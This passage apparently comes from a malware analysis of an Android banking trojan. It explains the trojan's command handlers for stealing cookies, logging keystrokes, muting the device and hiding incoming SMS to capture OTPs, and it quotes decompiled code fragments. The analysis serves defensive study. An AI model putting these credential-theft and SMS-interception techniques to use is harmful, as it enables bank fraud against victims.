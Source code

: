 The malware will steal Cookies from the opened apps using `scancookie` using `cookieManager`. After collecting Cookies the malware will stop scan using `stopcookie` command. The malware sends the stolen Cookies to `/testpost.php`. 

```cs 
  if(Intrinsics.areEqual(s, "scancookie")) {
                        try {
                            this.scanCookie(command0, workerService0);
                        }
                        catch(Exception unused_ex) {
                        }

                        return;
                    }
if(Intrinsics.areEqual(s, "stopcookie")) {
                        AppKt.log$default(this, "stop cookie received. cleaning preferences ...", null, null, 6, null);
                        workerService0.getPreferences().currentCookie("[]");
                        return;
                    }

if(Intrinsics.areEqual(s, "stopscan")) {
                        workerService0.getPreferences().currentCookie("[]");
                        return;
                    }

```
The malware has the capabbility to store key strokes of the victim using `startkeylogs`. This helps to steal the victim's banking credentials or login credentials. The malware sends the stored keylogs to `/keylog.php`. And stop storing keylogs using `stopkeylogs`.

```cs
 if(Intrinsics.areEqual(s, "stopkeylogs")) {
                        preferences0.isKeyLoggerIsEnabled(Boolean.valueOf(false));
                        return;
                    }

if(Intrinsics.areEqual(s, "startkeylogs")) {
                        preferences0.isKeyLoggerIsEnabled(boolean0);
                        return;
                    }

```

The malware will set the device to mute state using `startmute` command. So when the device gets a notification the victim won't notice. Then the malware will intercept the coming SMS. This makes the received SMS hidden from the victim. This useful for the attacker to get OTP. By using `stophidesms` command, this command stops hidding received SMS. Another command is to get SMS `getsms` to get the stored SMS on the victim's device then upload to C2 server using `sendsms` command.

```cs
if(Intrinsics.areEqual(s, "stophidesms")) {
                    if(!workerService1.checkScreenState(command0)) {
                        return;
                    }

                    if(Intrinsics.areEqual(Telephony.Sms.getDefaultSmsPackage(context0), workerService0.getPackageName())) {
                        preferences0.loopnotifEnabled(Boolean.valueOf(false));
                        this.stopHiddenPush(workerService1);
                        workerService0.getPreferences().isHiddenSMSEnabled(Boolean.valueOf(false));
                        workerService0.getPreferences().isNeedChangeDefaultToChrome(false);
                        workerService0.getPreferences().isNeedChangeDefaultToMessages(true);
                        Context context3 = workerService0.getApplicationContext();
                        Intrinsics.checkNotNullExpressionValue(context3, "workerService.applicationContext");
```